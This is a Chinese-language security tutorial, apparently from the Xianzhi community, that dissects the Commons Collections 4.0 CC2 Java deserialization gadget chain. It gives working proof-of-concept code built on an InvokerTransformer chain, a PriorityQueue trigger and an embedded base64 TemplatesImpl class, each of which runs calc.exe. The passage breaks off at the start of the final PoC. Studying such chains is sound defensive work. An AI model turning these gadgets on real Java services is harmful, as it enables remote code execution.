# Java 反序列化：Apache Commons Collections CC2 利用链深度解析-先知社区

> **来源**: https://xz.aliyun.com/news/18413  
> **文章ID**: 18413

---

## commons-collections 4.0

Apache Commons Collections 4.0 是官方针对旧版（commons-collections）的结构性缺陷和 API 设计问题推出的独立进化版本。它常常被作为一个新的包，且与旧版commons-collections的命名空间并不冲突，可以共存在同一个项目中。

## 环境搭建

* **jdk 8u71**
* **commons-collections-4.0**

具体搭建流程可以看我之前[文章](https://xz.aliyun.com/news/18291)。

注意commons-collections版本为4.0，jdk不影响，maven配置依赖时pom.xml写入的是：

```
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-collections4</artifactId>
    <version>4.0</version>
</dependency>
```

## CC2分析

### InvokerTransformer反射链分析

观察[ysoserial](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections2.java)给的利用链：



可以看到我们后半部分恶意代码的执行依然是通过InvokerTransformer反射调用的Runtime.getRuntime().exec()，即：

```
ConstantTransformer Runtime=new ConstantTransformer<>(Runtime.class);
InvokerTransformer getRuntime=new InvokerTransformer<>("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[0]});
InvokerTransformer invoke=new InvokerTransformer<>("invoke",new Class[]{Object.class,Object[].class},new Object[]{Runtime.class,new Object[0]});
InvokerTransformer exec=new InvokerTransformer<>("exec",new Class[]{String.class},new Object[]{"calc.exe"});
ConstantTransformer l=new ConstantTransformer<>(1);

Transformer[] transformers=new Transformer[]{Runtime,getRuntime,invoke,exec,l};

ChainedTransformer chind=new ChainedTransformer(transformers);
```

但调用ChainedTransformer.transform的是TransformingComparator.compare()方法，`org.apache.commons.collections4.comparators.TransformingComparator`是commons-collections 4.0独有的类：



可以看到TransformingComparator.compare会调用this.transformer.transform()方法：



并且Transformer是我们可控的，obj1和obj2同样是我们可调用的：

```
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.lang.reflect.Field;

public class CC2 {
    public static void main(String[] args) throws Exception{
        ConstantTransformer Runtime=new ConstantTransformer<>(Runtime.class);
        InvokerTransformer getRuntime=new InvokerTransformer<>("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[0]});
        InvokerTransformer invoke=new InvokerTransformer<>("invoke",new Class[]{Object.class,Object[].class},new Object[]{Runtime.class,new Object[0]});
        InvokerTransformer exec=new InvokerTransformer<>("exec",new Class[]{String.class},new Object[]{"calc.exe"});
        ConstantTransformer l=new ConstantTransformer<>(1);

        Transformer[] transformers=new Transformer[]{Runtime,getRuntime,invoke,exec,l};

        ChainedTransformer chind=new ChainedTransformer(transformers);

        TransformingComparator comparator=new TransformingComparator(chind);
        comparator.compare(null,null);
    }
}
```



调用ChainedTransformer.transform方法时传入的参数是不影响我们恶意代码执行的，因为ChainedTransformer.transform中第一个调用的是ConstantTransformer.transform()，而ConstantTransformer.transform()用于返回对象，返回的是创建实例时的对象即Runtime.class与transform方法传入的Object无关，不理解可以看我之前[CC1链的解析](https://xz.aliyun.com/news/18291)，所以null即可，这里也是能弹计算机。

接着我们需要找到能调用TransformingComparator.compare()的方法，ysoserial选用的是PriorityQueue.readObject，也就是将PriorityQueue类作为反序列化的入口：



readObject最后会调用PriorityQueue.heapify()方法，跟进一下：



当`i>=0`时调用PriorityQueue.siftDown方法，继续更进：



当comparator不为空时调用PriorityQueue.siftDownUsingComparator方法：



最后当`k < half`时调用comparator.compare方法，所以链子还是挺清晰的：



这里我们先看要实现链子的条件，先看comparator：



comparator是我们可控的，为了让最后执行TransformingComparator.compare()方法，所以我们需要传入comparator为TransformingComparator对象，且initialCapacity必须大于1，不然会报错:

```
PriorityQueue queue=new PriorityQueue(2, comparator);
```

然后我们看调用siftDown方法的条件：


`>>>`是按位右移补零操作符，当size为0，1时候i都小于0，所以`size>=2`，但size默认是为0的，需要一个方法改变size的值，而恰好PriorityQueue.offer方法能改变size值：  


每执行一次size的值就会加一，执行两次就能满足我们的条件了：

```
queue.offer(1);
queue.offer(1);
```

但ysoserial是通过PriorityQueue.add方法来修改size值的：



实际上也是调用的offer方法

接着看comparator.compare的调用条件：



half为size向右移一位



k传入的是i，即`(size>>>1)-1`，所以k<half也是成立的

修改poc：

```
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CC2 {
    public static void main(String[] args) throws Exception{
        ConstantTransformer Runtime=new ConstantTransformer<>(Runtime.class);
        InvokerTransformer getRuntime=new InvokerTransformer<>("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[0]});
        InvokerTransformer invoke=new InvokerTransformer<>("invoke",new Class[]{Object.class,Object[].class},new Object[]{Runtime.class,new Object[0]});
        InvokerTransformer exec=new InvokerTransformer<>("exec",new Class[]{String.class},new Object[]{"calc.exe"});
        ConstantTransformer l=new ConstantTransformer<>(1);

        Transformer[] transformers=new Transformer[]{Runtime,getRuntime,invoke,exec,l};

        ChainedTransformer chind=new ChainedTransformer(transformers);

        TransformingComparator comparator=new TransformingComparator(chind);
        PriorityQueue queue=new PriorityQueue(2, comparator);

        queue.add(1);
        queue.add(1);
    }
}
```



这里有个问题，还没开始反序列化呢就弹计算机了

这是因为在add方法中，调用的offer方法，而当`i!=0`时会执行`siftUp(i, e);`:



而siftUp方法调用`siftUpUsingComparator(k, x);`：



最后调用comparator.compare()方法从而弹计算机，跟我们要执行的链子效果一模一样。

为了避免这种情况，所以我们采取跟CC6链一样的方法，先传入假的faketransformers给ChainedTransformer对象，然后在反序列化前通过反射将字段修改回来即可

最终poc：

```
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CC2 {
    public static void main(String[] args) throws Exception{
        Transformer[] faketransformers = new Transformer[]{new ConstantTransformer(1)};

        ConstantTransformer Runtime=new ConstantTransformer<>(Runtime.class);
        InvokerTransformer getRuntime=new InvokerTransformer<>("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[0]});
        InvokerTransformer invoke=new InvokerTransformer<>("invoke",new Class[]{Object.class,Object[].class},new Object[]{Runtime.class,new Object[0]});
        InvokerTransformer exec=new InvokerTransformer<>("exec",new Class[]{String.class},new Object[]{"calc.exe"});
        ConstantTransformer l=new ConstantTransformer<>(1);
        Transformer[] transformers=new Transformer[]{Runtime,getRuntime,invoke,exec,l};

        ChainedTransformer chind=new ChainedTransformer(faketransformers);

        TransformingComparator comparator=new TransformingComparator(chind);
        PriorityQueue queue=new PriorityQueue(2, comparator);

        queue.add(1);
        queue.add(1);

        Field field=ChainedTransformer.class.getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chind,transformers);

        serialize(queue);
        unserialize();
    }
    public static void serialize(Object obj) throws Exception{
        FileOutputStream out=new FileOutputStream("E:\study\web\java\test.ser");
        ObjectOutputStream oos=new ObjectOutputStream(out);
        oos.writeObject(obj);
    }
    public static Object unserialize() throws Exception{
        FileInputStream in=new FileInputStream("E:\study\web\java\test.ser");
        ObjectInputStream ois=new ObjectInputStream(in);
        Object o=ois.readObject();
        return o;
    }
}
```



成功弹出计算机，且由于TransformingComparator.compare()用了两次transform方法，所以会弹两次计算机。

完整利用链：

```
ObjectInputStream -> readObject()
PriorityQueue -> readObject()
PriorityQueue -> heapify()
PriorityQueue -> siftDown()
PriorityQueue -> siftDownUsingComparator()
TransformingComparator -> compare()
ChainedTransformer -> transform()
ConstantTransformer -> transform()
InvokerTransformer -> transform()
    Class.getMethod()
InvokerTransformer -> transform()
    Runtime.getRuntime()
InvokerTransformer -> transform()
    Runtime.exec()
```

### TemplatesImpl字节码链分析

ysoserialpoc是通过执行TemplatesImpl.newTransformer加载恶意字节码来代替InvokerTransformer反射调用Runtime.getRuntine().exec()的，不熟悉TemplatesImpl加载恶意字节码可以看[java动态加载字节码](https://www.cnblogs.com/gaorenyusi/p/18269747)，poc:

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import java.io.IOException;

import java.lang.reflect.Field;
import java.util.Base64;

public class CC3 {
    public static void main(String[] args) throws Exception {
        byte[] bytes = Base64.getDecoder().decode("yv66vgAAADQALAoABgAeCgAfACAIACEKAB8AIgcAIwcAJAEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAGTGV2aWw7AQAKRXhjZXB0aW9ucwcAJQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007AQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsHACYBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEAClNvdXJjZUZpbGUBAAlldmlsLmphdmEMAAcACAcAJwwAKAApAQAIY2FsYy5leGUMACoAKwEABGV2aWwBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQATamF2YS9pby9JT0V4Y2VwdGlvbgEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAFAAYAAAAAAAMAAQAHAAgAAgAJAAAAQAACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAACAAoAAAAOAAMAAAAKAAQACwANAAwACwAAAAwAAQAAAA4ADAANAAAADgAAAAQAAQAPAAEAEAARAAIACQAAAD8AAAADAAAAAbEAAAACAAoAAAAGAAEAAAAQAAsAAAAgAAMAAAABAAwADQAAAAAAAQASABMAAQAAAAEAFAAVAAIADgAAAAQAAQAWAAEAEAAXAAIACQAAAEkAAAAEAAAAAbEAAAACAAoAAAAGAAEAAAATAAsAAAAqAAQAAAABAAwADQAAAAAAAQASABMAAQAAAAEAGAAZAAIAAAABABoAGwADAA4AAAAEAAEAFgABABwAAAACAB0=");

        TemplatesImpl Impl = new TemplatesImpl();
        setValue(Impl,"_name","b1uel0n3");
        setValue(Impl,"_class",null);
        setValue(Impl,"_bytecodes",new byte[][]{bytes});
        setValue(Impl,"_tfactory",new TransformerFactoryImpl());
        Impl.newTransformer();
    }
    public static void setValue(Object obj, String filedname, Object value) throws Exception {
           Field field=obj.getClass().getDeclaredField(filedname);
           field.setAccessible(true);
           field.set(obj,value);
    }
}
```



由于需要执行Impl.newTransformer()方法，所以这里`this.transformer`需要为InvokerTransformer对象：

```
InvokerTransformer newtransformer=new InvokerTransformer("newTransformer",new Class[0],new Object[0]);
```

这当obj1为Impl时，执行`this.transformer.transform(obj1);`就会执行Impl.newTransformer()。而obj的值不影响，随便设。

所以我们现在需要修改obj1的值，跟进下obj1：



obj1对应的是x，x是通过siftDown传入的



即x对应为queue[i]，而我们一开始传入的size为2，即第一次循环时i为0，所以x对应queue[0]





所以我们只用通过反射来修改queue的值：

```
Object[] queueArray=(Object[]) getValue(queue,"queue");
queueArray[0]=Impl;
queueArray[1]=1;

public static Object getValue(Object obj, String filedname) throws Exception {
    Field field=obj.getClass().getDeclaredField(filedname);
    field.setAccessible(true);
    return field.get(obj);
}
```

注意为了防止PriorityQueue.add方法影响，这里依然需要先传入假的InvokerTransformer对象，这里我们先传入无害的toString方法：

```
InvokerTransformer newtransformer=new InvokerTransformer("toString",new Class[0],new Object[0]);
TransformingComparator comparator=new TransformingComparator(newtransformer);
```

为什么是toString呢，因为在add方法中我们传入的是1，为Integer对象：



而在add调用的offer方法中会调用siftUp(i,e)，而e就是我们的Integer对象



之后执行siftUpUsingComparator方法，其中x就为传入的e，即Integer对象



最后执行`comparator.compare(x,(E) e)`，所以会调用Integer类中的方法，而该方法需要与我们要执行的newTransformer方法参数一致，这样才好通过反射修改值



所以像图中这种不需要参数的方法都是可以的，这里我们选择的是无危害的toString方法，也可以选择其他的

然后执行了add后修改回我们的newTrasformer方法：

```
setValue(newtransformer,"iMethodName","newTransformer");
```

完整poc:

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.*;

import java.lang.reflect.Field;
import java.util.Base64;
import java.util.PriorityQueue;

public class CC2 {
    public static void main(String[] args) throws Exception {
